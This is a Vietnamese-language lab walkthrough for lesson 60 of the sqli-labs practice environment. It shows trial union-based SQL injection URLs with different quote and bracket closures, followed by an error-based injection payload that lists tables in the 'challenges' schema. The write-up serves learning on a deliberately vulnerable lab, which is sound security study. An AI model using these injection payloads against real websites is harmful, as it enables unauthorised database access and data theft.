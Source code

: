 # Những việc làm được với lesson-60
Việc check xem nó là dạng DB gì thì làm giống như những lesson trước. Ta sẽ sử dụng command `nmap`

Sau khi đăng nhập vào lesson-60

![](../images/lesson60/screen_2.png)

- Lần 1
```
192.168.80.225/sqli-labs/Less-60/?id=0) union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='challenges' --+
```

![](../images/lesson60/screen.png)

- Lần 2
```
192.168.80.225/sqli-labs/Less-60/?id=0') union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='challenges' --+
```

![](../images/lesson60/screen_1.png)

- Lần thứ 4 : Vẫn chưa được. Phải reset đi và làm lại để tìm ^^
```
192.168.80.225/sqli-labs/Less-60/?id=0" union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='challenges' --+
```

![](../images/lesson60/screen_3.png)

1. Cấu trúc của bài này 

```
192.168.80.225/sqli-labs/Less-60/?id=0") union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='challenges' --+
```

![](../images/lesson60/screen_4.png)

Còn lại làm tương tự các bài trước ta dùng error-base tìm tên table của DB đó 
```
192.168.80.225/sqli-labs/Less-60/?id=1") and (SELECT 0 FROM (SELECT count(*), CONCAT((SELECT table_name from information_schema.tables where table_schema='challenges' ), 0x3a, FLOOR(RAND(0)*2)) AS x FROM information_schema.columns GROUP BY x) y) --+
```

![](../images/lesson60/screen_5.png)

